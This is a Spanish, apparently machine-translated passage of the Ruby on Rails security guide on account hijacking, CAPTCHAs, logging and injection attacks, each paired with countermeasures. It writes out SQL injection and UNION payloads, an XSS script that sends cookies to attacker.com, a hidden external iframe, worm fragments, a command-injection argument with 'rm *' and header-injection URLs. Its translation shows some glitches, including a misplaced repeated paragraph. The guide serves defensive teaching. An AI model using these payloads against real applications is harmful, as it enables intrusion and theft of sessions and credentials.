Los ataques de fuerza bruta a las cuentas son ataques de prueba y error a las credenciales de inicio de sesión. Defiéndalos con mensajes de error más genéricos y posiblemente requiera ingresar un CAPTCHA.
Una lista de nombres de usuario para su aplicación web puede ser mal utilizada para forzar las contraseñas correspondientes, porque la mayoría de la gente no usa contraseñas sofisticadas. La mayoría de las contraseñas son una combinación de palabras del diccionario y posiblemente números. Por lo tanto, armado con una lista de nombres de usuario y un diccionario, un programa automático puede encontrar la contraseña correcta en cuestión de minutos.
Debido a esto, la mayoría de las aplicaciones web mostrarán un mensaje de error genérico "el nombre de usuario o la contraseña no son correctos", si alguno de estos no es correcto. Si decía "el nombre de usuario que ingresó no se ha encontrado", un atacante podría compilar automáticamente una lista de nombres de usuario.
Sin embargo, lo que la mayoría de los diseñadores de aplicaciones web descuidan son las páginas de contraseña olvidada. Estas páginas a menudo admiten que el nombre de usuario o la dirección de correo electrónico ingresados no se han encontrado. Esto permite a un atacante compilar una lista de nombres de usuario y aplicar la fuerza bruta a las cuentas.
Para mitigar estos ataques, muestre también un mensaje de error genérico en las páginas de contraseña olvidada. Además, puede requitar ingresar un CAPTCHA después de varios inicios de sesión fallidos desde una determinada dirección IP. Sin embargo, tenga en cuenta que esta no es una solución a prueba de balas contra los programas automáticos, porque estos programas pueden cambiar su dirección IP con la misma frecuencia. Sin embargo, eleva la barrera de un ataque.
6.2 Account Hijacking
Muchas aplicaciones web facilitan el secuestro de cuentas de usuario. ¿Por qué no ser diferente y hacerlo más difícil ?.
6.2.1 Passwords
Piense en una situación en la que un atacante ha robado la cookie de sesión de un usuario y, por lo tanto, puede utilizar la aplicación de forma conjunta. Si es fácil cambiar la contraseña, el atacante secuestrará la cuenta con unos pocos clics. O si el formulario de cambio de contraseña es vulnerable a CSRF, el atacante podrá cambiar la contraseña de la víctima atrayéndola a una página web donde hay una etiqueta IMG diseñada que hace el CSRF. Como contramedida, hacer que los formularios de cambio de contraseña sean seguros contra CSRF, por supuesto. Y require al usuario que ingrese la contraseña anterior cuando la cambie.
6.2.2 E-Mail
Sin embargo, el atacante también puede apoderarse de la cuenta cambiando la dirección de correo electrónico. Después de que la cambien, irán a la página de contraseña olvidada y la (posiblemente nueva) contraseña se enviará por correo a la dirección de correo electrónico del atacante. Como contramedida requiere que el usuario ingrese la contraseña cuando cambie la dirección de correo electrónico también.
6.2.3 Other
Dependiendo de su aplicación web, puede haber más formas de secuestrar la cuenta del usuario. En muchos casos, CSRF y XSS ayudarán a hacerlo. Por ejemplo, como en una vulnerabilidad CSRF en Google Mail. En este ataque de prueba de concepto, la víctima habría sido atraída a un sitio web controlado por el atacante. En ese sitio hay una etiqueta IMG diseñada que da como resultado una solicitud HTTP GET que cambia la configuración del filtro de Google Mail. Si la víctima inició sesión en Google Mail, el atacante cambiaría los filtros para reenviar todos los correos electrónicos a su dirección de correo electrónico. Esto es casi tan dañino como secuestrar toda la cuenta. Como contramedida, revise la lógica de su aplicación y elimine todas las vulnerabilidades XSS y CSRF.
6.3 CAPTCHAs
A CAPTCHA es una prueba de desafío-respuesta para determinar que la respuesta no es generada por una computadora. A menudo se utiliza para proteger los formularios de registro de los atacantes y los formularios de comentarios de los robots de spam automáticos pidiendo al usuario que escriba las letras de una imagen distorsionada. Este es el CAPTCHA positivo, pero también existe el CAPTCHA negativo. La idea de un CAPTCHA negativo no es que un usuario demuestre que es humano, sino que revele que un robot es un robot.
Una API CAPTCHA positiva popular es reCAPTCHA que muestra dos imágenes distorsionadas de palabras de libros antiguos. También agrega una línea en ángulo, en lugar de un fondo distorsionado y altos niveles de deformación en el texto como lo hicieron los CAPTCHA anteriores, porque estos últimos estaban rotos. Como beneficio adicional, el uso de reCAPTCHA ayuda a digitalizar libros antiguos. ReCAPTCHA is also a Rails plug-in with the same name as the API.
Obtendrá dos claves de la API, una pública y una privada, que debe poner en su entorno Rails. Después de eso, puede usar el método recaptcha_tags en la vista y el método verify_recaptcha en el controlador. Verify_recaptcha devolverá falso si falla la validación. El problema con los CAPTCHA es que tienen un impacto negativo en la experiencia del usuario. Además, algunos usuarios con discapacidad visual han encontrado que ciertos tipos de CAPTCHA distorsionados son difíciles de leer. Aún así, los CAPTCHA positivos son uno de los mejores métodos para evitar que todo tipo de bots envíen formularios.
La mayoría de los bots son realmente tontos. Ellos rastrean la web y ponen su spam en todos los campos de formulario que pueden encontrar. Los CAPTCHA negativos se aprovechan de eso e incluyen un campo "honeypot" en el formulario que será ocultado al usuario humano por CSS o JavaScript.
Tenga en cuenta que los CAPTCHA negativos solo son efectivos contra bots tontos y no serán suficientes para proteger aplicaciones críticas de bots específicos. Aún así, los CAPTCHA negativos y positivos se pueden combinar para aumentar el rendimiento, por ejemplo, si el campo "honeypot" no está vacío (bot detectado), no necesitará verificar el CAPTCHA positivo, lo que requeriría una solicitud HTTPS a Google. ReCaptcha antes de calcular la respuesta.
Aquí hay algunas ideas sobre cómo ocultar campos de honeypot mediante JavaScript y / o CSS:
- colocar los campos fuera del área visible de la página
- hacer los elementos muy pequeños o colorearlos igual que el fondo de la página
- deje los campos mostrados, pero dígales a los humanos que los dejen en blanco
El CAPTCHA negativo más simple es un campo de honeypot oculto. En el lado del servidor, comprobará el valor del campo: si contiene algún texto, debe ser un bot. Luego, puede ignorar la publicación o devolver un resultado positivo, pero no guardar la publicación en la base de datos. De esta manera, el bot estará satisfecho y seguirá adelante.
Puede encontrar CAPTCHA negativos más sofisticados en Ned Batchelder's blog post:
- Incluya un campo con la marca de tiempo UTC actual y compruébelo en el servidor. Si está demasiado lejos en el pasado o si está en el futuro, el formulario no es válido.
- Aleatorizar los nombres de los campos
- Incluya más de un campo de honeypot de todo tipo, incluidos los botones de envío
Tenga en cuenta que esto lo protege solo de los bots automáticos, los bots personalizados específicos no pueden ser detenidos por esto. Por lo tanto, los CAPTCHA negativos pueden no ser buenos para proteger los formularios de inicio de sesión.
6.4 Logging
Dígale a Rails que no ponga contraseñas en los archivos de registro.
De forma predeterminada, Rails registra todas las solicitudes realizadas a la aplicación web. Pero los archivos de registro pueden ser un gran problema de seguridad, ya que pueden contener credenciales de inicio de sesión, números de tarjetas de crédito, etc. Al diseñar el concepto de seguridad de una aplicación web, también debe pensar en lo que sucederá si un atacante obtiene acceso (completo) al servidor web. Encriptar secretos y contraseñas en la base de datos será bastante inútil si los archivos de registro los enumeran en texto sin cifrar. Puede filtrar ciertos parámetros de solicitud de sus archivos de registro agregándolos a config.filter_parameters en la configuración de la aplicación. Estos parámetros se marcarán como [FILTRADOS] en el registro.
config.filter_parameters << :password
Los parámetros proporcionados se filtrarán mediante una expresión regular de coincidencia parcial. Rails agrega por defecto : contraseña en el inicializador apropiado (initializers / filter_parameter_logging.rb) y se preocupa por los parámetros típicos de la aplicación password y password_confirmation.
6.5 Regular Expressions
Un error común en las expresiones regulares de Ruby es hacer coincidir el principio y el final de la cadena con ^ y $, en lugar de \ A y \ z.
Ruby usa un enfoque ligeramente diferente al de muchos otros lenguajes para hacer coincidir el final y el comienzo de una cadena. Es por eso que incluso muchos libros de Ruby y Rails se equivocan. Entonces, ¿cómo es esto una amenaza para la seguridad? Supongamos que desea validar libremente un campo de URL y utilizó una expresión regular simple como esta:
/^https?:\/\/[^\n]+$/i
Esto puede funcionar bien en algunos idiomas. Sin embargo, en Ruby ^ y $ coinciden con línea principio y final de línea. Y así una URL como esta pasa el filtro sin problemas:
javascript:exploit_code();/*
http://hi.com
*/
Esta URL pasa el filtro porque la expresión regular coincide; la segunda línea, el resto no importa. Ahora imagina que tuviéramos una vista que mostrara la URL así:
link_to "Homepage", @user.homepage
El enlace parece inocente para los visitantes, pero cuando se hace clic en él, ejecutará la función de JavaScript "exploit_code" o cualquier otro JavaScript que proporcione el atacante.
Para corregir la expresión regular, se deben usar \ A y\ z en lugar de ^ y $, así:
/\Ahttps?:\/\/[^\n]+\z/i
Dado que este es un error frecuente, el validador de formato (validates_format_of) ahora genera una excepción si la expresión regular proporcionada comienza con ^ o termina con $. Si necesita usar ^ y $ en lugar de \ A y \ z (lo cual es raro), puede establecer la opción: multiline en true, así:
# content should include a line "Meanwhile" anywhere in the string
validates :content, format: { with: /^Meanwhile$/, multiline: true }
Tenga en cuenta que esto solo lo protege contra el error más común al usar el validador de formato; siempre debe tener en cuenta que ^ y $ coinciden con el principio y el final de ** línea ** en Ruby, y no con el principio y el final de un cuerda.
6.6 Privilege Escalation
_Cambiar un solo parámetro puede dar al usuario acceso no autorizado. Recuerde que todos los parámetros pueden cambiarse, sin importar cuánto los oculte u ofusque.
El parámetro más común que un usuario puede manipular es el parámetro id, como en http://www.domain.com/project/1, mientras que 1 es el id. Estará disponible en parámetros en el controlador. Allí, lo más probable es que haga algo como esto:
@project = Project.find(params[:id])
Esto está bien para algunas aplicaciones web, pero ciertamente no si el usuario no está autorizado para ver todos los proyectos. Si el usuario cambia la identificación a 42 y no se le permite ver esa información, tendrá acceso a ella de todos modos. En su lugar, consulte también los derechos de acceso del usuario:
@project = @current_user.projects.find(params[:id])
Dependiendo de su aplicación web, habrá muchos más parámetros que el usuario puede manipular. Como regla general, _ ningún dato de entrada del usuario es seguro, hasta que se demuestre lo contrario, y cada parámetro del usuario es potencialmente manipulado_.
No se deje engañar por la seguridad mediante la ofuscación y la seguridad de JavaScript. Las herramientas para desarrolladores le permiten revisar y cambiar los campos ocultos de cada formulario. JavaScript se puede utilizar para validar los datos de entrada del usuario, pero ciertamente no para evitar que los atacantes envíen solicitudes maliciosas con valores inesperados. El complemento Firebug para Mozilla Firefox registra cada solicitud y puede repetirlas y modificarlas. Ésta es una manera fácil de eludir cualquier validación de JavaScript. E incluso hay proxies del lado del cliente que le permiten interceptar cualquier solicitud y respuesta desde y hacia Internet.
7 Injection
La inyección es una clase de ataques que introducen códigos o parámetros maliciosos en una aplicación web para ejecutarla dentro de su contexto de seguridad. Ejemplos destacados de inyección son las secuencias de comandos entre sitios (XSS) y la inyección SQL.
La inyección es muy complicada, porque el mismo código o parámetro puede ser malicioso en un contexto, pero totalmente inofensivo en otro. Un contexto puede ser un lenguaje de programación, consulta o script, el shell o un método Ruby / Rails. Las siguientes secciones cubrirán todos los contextos importantes donde pueden ocurrir ataques de inyección. Sin embargo, la primera sección cubre una decisión arquitectónica relacionada con la inyección.
7.1 Permitted lists versus Restricted lists
NOTA: _Cuando desinfecte, proteja o verifique algo, prefiera las listas permitidas sobre las listas restringidas.
Una lista restringida puede ser una lista de direcciones de correo electrónico incorrectas, acciones no públicas o etiquetas HTML incorrectas. Esto se opone a una lista permitida que enumera las buenas direcciones de correo electrónico, acciones públicas, buenas etiquetas HTML, etc. Aunque a veces no es posible crear una lista permitida (en un filtro de SPAM, por ejemplo), prefiere usar enfoques de lista permitidos:
- Utilice
before_action except: [...]en lugar deonly: [...]para acciones relacionadas con la seguridad. De esta manera, no olvide habilitar las comprobaciones de seguridad para las acciones recién agregadas. - Permita
<strong>en lugar de eliminar<script>contra Cross-Site Scripting (XSS). Consulte los detalles a continuación. - No intente corregir la entrada del usuario utilizando listas restringidas:
- Esto hará que el ataque funcione:
"<sc<script>ript>".gsub("<script>", "") - Pero rechace la entrada mal formada
- Esto hará que el ataque funcione:
Las listas permitidas también son un buen enfoque contra el factor humano de olvidar algo en la lista restringida.
7.2 SQL Injection
Gracias a los métodos inteligentes, esto no es un problema en la mayoría de las aplicaciones de Rails. Sin embargo, este es un ataque muy devastador y común en aplicaciones web, por lo que es importante comprender el problema.
7.2.1 Introduction
Los ataques de inyección SQL tienen como objetivo influir en las consultas de la base de datos mediante la manipulación de los parámetros de la aplicación web. Un objetivo popular de los ataques de inyección SQL es evitar la autorización. Otro objetivo es realizar la manipulación de datos o leer datos arbitrarios. A continuación, se muestra un ejemplo de cómo no utilizar los datos de entrada del usuario en una consulta:
Project.where("name = '#{params[:name]}'")
Esto podría ser en una acción de búsqueda y el usuario puede ingresar el nombre de un proyecto que desea encontrar. Si un usuario malintencionado ingresa 'O 1 --, la consulta SQL resultante será:
SELECT * FROM projects WHERE name = '' OR 1 --'
Los dos guiones inician un comentario ignorando todo lo que sigue. Entonces, la consulta devuelve todos los registros de la tabla de proyectos, incluidos los ciegos para el usuario. Esto se debe a que la condición es verdadera para todos los registros.
7.2.2 Bypassing Authorization
Por lo general, una aplicación web incluye control de acceso. El usuario ingresa sus credenciales de inicio de sesión y la aplicación web intenta encontrar el registro coincidente en la tabla de usuarios. La aplicación otorga acceso cuando encuentra un registro. Sin embargo, un atacante posiblemente pueda omitir esta comprobación con la inyección SQL. A continuación se muestra una consulta de base de datos típica en Rails para encontrar el primer registro en la tabla de usuarios que coincida con los parámetros de credenciales de inicio de sesión proporcionados por el usuario.
User.find_by("login = '#{params[:name]}' AND password = '#{params[:password]}'")
Si un atacante ingresa 'OR' 1 '=' 1 como nombre y'OR' 2 '>' 1 como contraseña, la consulta SQL resultante será:
SELECT * FROM users WHERE login = '' OR '1'='1' AND password = '' OR '2'>'1' LIMIT 1
Esto simplemente encontrará el primer registro en la base de datos y le otorga acceso a este usuario.
7.2.3 Unauthorized Reading
La declaración UNION conecta dos consultas SQL y devuelve los datos en un conjunto. Un atacante puede usarlo para leer datos arbitrarios de la base de datos. Tomemos el ejemplo de arriba:
Project.where("name = '#{params[:name]}'")
Y ahora inyectemos otra consulta usando la declaración UNION:
') UNION SELECT id,login AS name,password AS description,1,1,1 FROM users --
Esto dará como resultado la siguiente consulta SQL:
SELECT * FROM projects WHERE (name = '') UNION
SELECT id,login AS name,password AS description,1,1,1 FROM users --'
El resultado no será una lista de proyectos (porque no hay ningún proyecto con un nombre vacío), sino una lista de nombres de usuario y su contraseña. ¡Esperemos que haya cifrado las contraseñas en la base de datos! El único problema para el atacante es que el número de columnas debe ser el mismo en ambas consultas. Es por eso que la segunda consulta incluye una lista de unos (1), que siempre será el valor 1, para que coincida con el número de columnas de la primera consulta.
Además, la segunda consulta cambia el nombre de algunas columnas con la declaración AS para que la aplicación web muestre los valores de la tabla de usuarios. Asegúrese de actualizar sus Rails to at least 2.1.1.
7.2.4 Countermeasures
Ruby on Rails tiene un filtro incorporado para caracteres SQL especiales, que escaparán ', ", carácter NULL y saltos de línea. * UsandoModel.find (id)oModel.find_by_some thing (algo )aplica automáticamente esta contramedida *. Pero en fragmentos SQL, especialmente * en fragmentos de condiciones (donde ("...")), los métodosconnection.execute ()oModel.find_by_sql (), debe aplicarse manualmente *.
En lugar de pasar una cadena a la opción de condiciones, puede pasar una matriz para desinfectar cadenas contaminadas como esta:
Model.where("login = ? AND password = ?", entered_user_name, entered_password).first
Como puede ver, la primera parte de la matriz es un fragmento SQL con signos de interrogación. Las versiones desinfectadas de las variables en la segunda parte de la matriz reemplazan los signos de interrogación. O puede pasar un hash para el mismo resultado:
Model.where(login: entered_user_name, password: entered_password).first
La forma de matriz o hash solo está disponible en instancias de modelo. Puede probar sanitize_sql() en otro lugar. Haga un hábito de pensar en las consecuencias de seguridad al usar una cadena externa en SQL.
7.3 Cross-Site Scripting (XSS)
La vulnerabilidad de seguridad más extendida y una de las más devastadoras en las aplicaciones web es XSS. Este ataque malintencionado inyecta código ejecutable del lado del cliente. Rails proporciona métodos de ayuda para defenderse de estos ataques.
7.3.1 Entry Points
Un punto de entrada es una URL vulnerable y sus parámetros donde un atacante puede iniciar un ataque.
Los puntos de entrada más comunes son las publicaciones de mensajes, los comentarios de los usuarios y los libros de visitas, pero los títulos de los proyectos, los nombres de los documentos y las páginas de resultados de búsqueda también han sido vulnerables, en casi todos los lugares donde el usuario puede ingresar datos. Pero la entrada no tiene que provenir necesariamente de los cuadros de entrada de los sitios web, puede estar en cualquier parámetro de URL: obvio, oculto o interno. Recuerde que el usuario puede interceptar cualquier tráfico. Las aplicaciones o los servidores proxy del sitio del cliente facilitan el cambio de solicitudes. También existen otros vectores de ataque como los anuncios publicitarios.
Los ataques XSS funcionan así: un atacante inyecta un código, la aplicación web lo guarda y lo muestra en una página, que luego se presenta a la víctima. La mayoría de los ejemplos de XSS simplemente muestran un cuadro de alerta, pero es más poderoso que eso. XSS puede robar la cookie, secuestrar la sesión, redirigir a la víctima a un sitio web falso, mostrar anuncios en beneficio del atacante, cambiar elementos en el sitio web para obtener información confidencial o instalar software malicioso a través de agujeros de seguridad en el navegador web.
Durante la segunda mitad de 2007, se informaron 88 vulnerabilidades en los navegadores de Mozilla, 22 en Safari, 18 en IE y 12 en Opera. El Symantec Global Internet Security threat report también documentó 239 vulnerabilidades de complementos del navegador en las últimas seis meses de 2007. Mpack es un marco de ataque muy activo y actualizado que aprovecha estas vulnerabilidades. Para los piratas informáticos criminales, es muy atractivo aprovechar una vulnerabilidad de inyección SQL en el marco de una aplicación web e insertar código malicioso en cada columna de la tabla textual. En abril de 2008, más de 510.000 sitios fueron pirateados de esta manera, entre ellos el gobierno británico, las Naciones Unidas y muchos más objetivos de alto perfil.
7.3.2 HTML/JavaScript Injection
El lenguaje XSS más común es, por supuesto, el lenguaje de scripting del lado del cliente más popular, JavaScript, a menudo en combinación con HTML. Escapar la entrada del usuario es esencial.
Aquí está la prueba más sencilla para verificar XSS:
<script>alert('Hello');</script>
Este código JavaScript simplemente mostrará un cuadro de alerta. Los siguientes ejemplos hacen exactamente lo mismo, solo que en lugares muy poco comunes:
<img src=javascript:alert('Hello')>
<table background="javascript:alert('Hello')">
7.3.2.1 Cookie Theft
Estos ejemplos no hacen ningún daño hasta ahora, así que veamos cómo un atacante puede robar la cookie del usuario (y así secuestrar la sesión del usuario). En JavaScript, puede usar la propiedad document.cookie para leer y escribir la cookie del documento. JavaScript aplica la misma política de origen, lo que significa que un script de un dominio no puede acceder a las cookies de otro dominio. La propiedad document.cookie contiene la cookie del servidor web de origen. Sin embargo, puede leer y escribir esta propiedad si incrusta el código directamente en el documento HTML (como sucede con XSS). Inyecte esto en cualquier lugar de su aplicación web para ver su propia cookie en la página de resultados:
<script>document.write(document.cookie);</script>
Para un atacante, por supuesto, esto no es útil, ya que la víctima verá su propia cookie. El siguiente ejemplo intentará cargar una imagen de la URL http://www.attacker.com/ más la cookie. Por supuesto, esta URL no existe, por lo que el navegador no muestra nada. Pero el atacante puede revisar los archivos de registro de acceso de su servidor web para ver la cookie de la víctima.
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
Los archivos de registro en www.attacker.com se leerán así:
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
Puede mitigar estos ataques (de la manera obvia) agregando la marca httpOnly a las cookies, de modo que JavaScript no pueda leer document.cookie. Las cookies solo HTTP se pueden utilizar desde IE v6.SP1, Firefox v2.0.0.5, Opera 9.5, Safari 4 y Chrome 1.0.154 en adelante. Pero otros navegadores más antiguos (como WebTV e IE 5.5 en Mac) pueden hacer que la página no se cargue. Sin embargo, tenga en cuenta que las cookies seguirán siendo visibles utilizando Ajax mediante will still be visible using Ajax.
7.3.2.2 Defacement
Con la desfiguración de la página web, un atacante puede hacer muchas cosas, por ejemplo, presentar información falsa o atraer a la víctima al sitio web del atacante para robar la cookie, las credenciales de inicio de sesión u otros datos confidenciales. La forma más popular es incluir código de fuentes externas mediante iframes:
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
Esto carga HTML arbitrario y / o JavaScript de una fuente externa y lo incrusta como parte del sitio. Este iframe se toma de un ataque real a sitios italianos legítimos utilizando el Mpack attack framework. Mpack intenta instalar software malicioso a través de agujeros de seguridad en el navegador web; con mucho éxito, el 50% de los ataques tienen éxito.
Un ataque más especializado podría superponerse a todo el sitio web o mostrar un formulario de inicio de sesión, que tiene el mismo aspecto que el original del sitio, pero transmite el nombre de usuario y la contraseña al sitio del atacante. O podría usar CSS y/o JavaScript para ocultar un enlace legítimo en la aplicación web y mostrar otro en su lugar que redirige a un sitio web falso.
Los ataques de inyección reflejada son aquellos en los que la carga útil no se almacena para presentársela a la víctima más adelante, sino que se incluye en la URL. Especialmente los formularios de búsqueda no logran escapar de la cadena de búsqueda. El siguiente enlace presentaba una página que decía que "George Bush nombró a un niño de 9 años como presidente ...":
http://www.cbsnews.com/stories/2002/02/15/weather_local/main501644.shtml?zipcode=1-->
<script src=http://www.securitylab.ru/test/sc.js></script><!--
7.3.2.3 Countermeasures
Es muy importante filtrar las entradas maliciosas, pero también es importante escapar del resultado de la aplicación web.
Especialmente para XSS, es importante hacer filtrado de entrada permitido en lugar de restringido. El filtrado de listas permitidas establece los valores permitidos en contraposición a los valores no permitidos. Las listas restringidas nunca están completas.
Imagine que una lista restringida elimina "script" de la entrada del usuario. Ahora el atacante inyecta "<scrscriptipt>", y después del filtro, permanece "<script>". Las versiones anteriores de Rails usaban un enfoque de lista restringida para los métodos strip_tags(), strip_links() y sanitize(). Entonces este tipo de inyección fue posible:
strip_tags("some<<b>script>alert('hello')<</b>/script>")
Esto devolvió "some<script>alert('hello')</script>", lo que hace que un ataque funcione. Es por eso que un enfoque de lista permitida es mejor, usando el método actualizado de Rails 2 sanitize():
tags = %w(a acronym b strong i em li ul ol h1 h2 h3 h4 h5 h6 blockquote br cite sub sup ins p)
s = sanitize(user_input, tags: tags, attributes: %w(href title))
Esto permite solo las etiquetas dadas y hace un buen trabajo, incluso contra todo tipo de trucos y etiquetas mal formadas.
Como segundo paso, es una buena práctica escapar de todos los resultados de la aplicación, especialmente cuando se vuelve a mostrar la entrada del usuario, que no ha sido filtrada (como en el ejemplo del formulario de búsqueda anterior). Utilice escapeHTML () (o su alias h ()) método para reemplazar los caracteres HTML de entrada &, ", <, y>por sus representaciones no interpretadas en HTML (&, ", <, and >).
7.3.2.4 Obfuscation and Encoding Injection
El tráfico de red se basa principalmente en el alfabeto occidental limitado, por lo que surgieron nuevas codificaciones de caracteres, como Unicode, para transmitir caracteres en otros idiomas. Pero, esto también es una amenaza para las aplicaciones web, ya que el código malicioso puede estar oculto en diferentes codificaciones que el navegador web podría procesar, pero la aplicación web no. Aquí hay un vector de ataque en codificación UTF-8:
<IMG SRC=javascript:a
lert('XSS')>
Este ejemplo muestra un cuadro de mensaje. Sin embargo, será reconocido por el filtro sanitize() anterior. Una gran herramienta para ocultar y codificar cadenas, y así "conocer a tu enemigo", es el Hackvertor. El método sanitize() de Rails hace un buen trabajo para defenderse de los ataques de codificación.
7.3.3 Examples from the Underground
Para comprender los ataques actuales a las aplicaciones web, es mejor echar un vistazo a algunos vectores de ataque del mundo real.
El siguiente es un extracto del Js.Yamanner@m Yahoo! Mail worm. Apareció el 11 de junio de 2006 y fue el primer gusano de interfaz de correo web:
<img src='http://us.i1.yimg.com/us.yimg.com/i/us/nt/ma/ma_mail_1.gif'
target=""onload="var http_request = false; var Email = '';
var IDList = ''; var CRumb = ''; function makeRequest(url, Func, Method,Param) { ...
Este ejemplo muestra un cuadro de mensaje. Sin embargo, será reconocido por el filtro sanitize () anterior. Una gran herramienta para ocultar y codificar cadenas, y así "conocer a tu enemigo", es el Hackvertor. El método sanitize() de Rails hace un buen trabajo para defenderse de los ataques de codificación.
<img src='http://us.i1.yimg.com/us.yimg.com/i/us/nt/ma/ma_mail_1.gif'
target=""onload="var http_request = false; var Email = '';
var IDList = ''; var CRumb = ''; function makeRequest(url, Func, Method,Param) { ...
Los gusanos aprovechan un agujero en el filtro HTML / JavaScript de Yahoo, que generalmente filtra todos los objetivos y los atributos de carga de las etiquetas (porque puede haber JavaScript). Sin embargo, el filtro se aplica solo una vez, por lo que el atributo onload con el código del gusano permanece en su lugar. Este es un buen ejemplo de por qué los filtros de listas restringidas nunca están completos y por qué es difícil permitir HTML / JavaScript en una aplicación web.
Otro gusano de correo web de prueba de concepto es Nduja, un gusano de dominio cruzado para cuatro servicios de correo web italianos. Encuentre más detalles en el Rosario Valotta's paper. Ambos gusanos de correo web tienen el objetivo de recolectar direcciones de correo electrónico, algo con lo que un hacker criminal podría ganar dinero.
En diciembre de 2006, se robaron 34.000 nombres de usuario y contraseñas reales en un MySpace phishing attack. La idea del ataque era crear una página de perfil llamada "login_home_index_html", por lo que la URL parecía muy convincente. Se utilizó HTML y CSS especialmente diseñados para ocultar el contenido genuino de MySpace de la página y, en su lugar, mostrar su propio formulario de inicio de sesión.
7.4 CSS Injection
CSS Injection es en realidad una inyección de JavaScript, porque algunos navegadores (IE, algunas versiones de Safari y otros) permiten JavaScript en CSS. Piense dos veces antes de permitir CSS personalizado en su aplicación web.
La inyección de CSS se explica mejor por el conocido MySpace Samy worm. Este gusano envió automáticamente una solicitud de amistad a Samy (el atacante) simplemente visitando su perfil. En varias horas recibió más de 1 millón de solicitudes de amistad, lo que generó tanto tráfico que MySpace se desconectó. La siguiente es una explicación técnica de ese gusano.
MySpace bloqueó muchas etiquetas, pero permitió CSS. Entonces, el autor del gusano puso JavaScript en CSS de esta manera:
<div style="background:url('javascript:alert(1)')">
Entonces, la carga útil está en el atributo de estilo. Pero no se permiten comillas en la carga útil, porque ya se han utilizado comillas simples y dobles. Pero JavaScript tiene una práctica función eval() que ejecuta cualquier cadena como código.
<div id="mycode" expr="alert('hah!')" style="background:url('javascript:eval(document.all.mycode.expr)')">
La función eval() es una pesadilla para los filtros de entrada de listas restringidas, ya que permite que el atributo de estilo oculte la palabra "innerHTML":
alert(eval('document.body.inne' + 'rHTML'));
El siguiente problema fue que MySpace filtraba la palabra "javascript", por lo que el autor usó "java<NEWLINE>script" para solucionar esto:
<div id="mycode" expr="alert('hah!')" style="background:url('java↵
script:eval(document.all.mycode.expr)')">
Otro problema para el autor del gusano fueron los CSRF security tokens. Sin ellos, no podría enviar una solicitud de amistad por POST. Lo solucionó enviando un GET a la página justo antes de agregar un usuario y analizar el resultado del token CSRF.
Al final, obtuvo un gusano de 4 KB, que inyectó en su página de perfil.
La propiedad CSS moz-binding demostró ser otra forma de introducir JavaScript en CSS en navegadores basados en Gecko (Firefox, por ejemplo).
7.4.1 Countermeasures
Este ejemplo, nuevamente, mostró que un filtro de lista restringida nunca está completo. Sin embargo, dado que el CSS personalizado en las aplicaciones web es una característica bastante poco común, puede resultar difícil encontrar un buen filtro de CSS permitido. Si desea permitir colores o imágenes personalizados, puede permitir que el usuario los elija y cree el CSS en la aplicación web. Utilice el método "sanitize ()" de Rails como modelo para un filtro CSS permitido, si realmente lo necesita.
7.5 Textile Injection
Si desea proporcionar un formato de texto que no sea HTML (por motivos de seguridad), utilice un lenguaje de marcado que se convierta a HTML en el lado del servidor. RedCloth es un lenguaje de este tipo para Ruby, pero sin precauciones, también es vulnerable a XSS.
Por ejemplo, RedCloth traduce _test_ a <em>test<em>, lo que hace que el texto esté en cursiva. Sin embargo, hasta la versión actual 3.0.4, todavía es vulnerable a XSS. Obtenga la all-new version 4 que eliminó errores graves. Sin embargo, incluso esa versión tiene some security bugs, por lo que las contramedidas aún se aplican. A continuación, se muestra un ejemplo de la versión 3.0.4:
RedCloth.new('<script>alert(1)</script>').to_html
# => "<script>alert(1)</script>"
Utilice la opción : filter_html para eliminar HTML que no fue creado por el procesador textil.
RedCloth.new('<script>alert(1)</script>', [:filter_html]).to_html
# => "alert(1)"
Sin embargo, esto no filtra todo el HTML, se dejarán algunas etiquetas (por diseño), por ejemplo, <a>:
RedCloth.new("<a href='javascript:alert(1)'>hello</a>", [:filter_html]).to_html
# => "<p><a href="javascript:alert(1)">hello</a></p>"
7.5.1 Countermeasures
Se recomienda usar RedCloth en combinación con un filtro de entrada permitido, como se describe en la sección de contramedidas contra XSS.
7.6 Ajax Injection
_ Se deben tomar las mismas precauciones de seguridad para las acciones de Ajax que para las "normales". Sin embargo, hay al menos una excepción: la salida ya debe escaparse en el controlador, si la acción no representa una vista.
Si usa el in_place_editor plugin, o acciones que devuelven una cadena, en lugar de representar una vista, tienes que escapar del valor de retorno en la acción. De lo contrario, si el valor de retorno contiene una cadena XSS, el código malicioso se ejecutará al regresar al navegador. Escapa de cualquier valor de entrada usando el método h().
7.7 Command Line Injection
NOTA: Use los parámetros de la línea de comandos proporcionados por el usuario con precaución.
Si su aplicación tiene que ejecutar comandos en el sistema operativo subyacente, hay varios métodos en Ruby: exec(command), syscall(command), system(command) y command. Deberá tener especial cuidado con estas funciones si el usuario puede ingresar el comando completo o parte de él. Esto se debe a que en la mayoría de los shells, puede ejecutar otro comando al final del primero, concatenando con un punto y coma (;) o una barra vertical (|).
Una contramedida es utilizar el método system(command, parameters) que pasa los parámetros de la línea de comandos de manera segura.
system("/bin/echo","hello; rm *")
# prints "hello; rm *" and does not delete files
7.8 Header Injection
Los encabezados HTTP se generan dinámicamente y, en determinadas circunstancias, se puede inyectar la entrada del usuario. Esto puede provocar una redirección falsa, XSS o una división de la respuesta HTTP.
Los encabezados de solicitud HTTP tienen un Referer, User-Agent (software de cliente) y un campo Cookie, entre otros. Los encabezados de respuesta, por ejemplo, tienen un código de estado, una cookie y un campo de ubicación (URL de destino de redirección). Todos ellos son suministrados por el usuario y pueden manipularse con más o menos esfuerzo. Recuerde también escapar de estos campos de encabezado. Por ejemplo, cuando muestra el agente de usuario en un área de administración.
Además de eso, es importante saber lo que estás haciendo cuando construyes encabezados de respuesta en parte basados en la entrada del usuario. Por ejemplo, quieres redirigir al usuario a una página específica. Para ello, introdujo un campo "referente" en un formulario para redirigir a la dirección dada:
redirect_to params[:referer]
Lo que sucede es que Rails coloca la cadena en el campo de encabezado Location y envía un estado 302 (redireccionamiento) al navegador. Lo primero que haría un usuario malintencionado es esto:
http://www.yourapplication.com/controller/action?referer=http://www.malicious.tld
Y debido a un error en (Ruby y) Rails hasta la versión 2.1.2 (excluyéndolo), un hacker puede inyectar campos de encabezado arbitrarios; por ejemplo así:
http://www.yourapplication.com/controller/action?referer=http://www.malicious.tld%0d%0aX-Header:+Hi!
http://www.yourapplication.com/controller/action?referer=path/at/your/app%0d%0aLocation:+http://www.malicious.tld
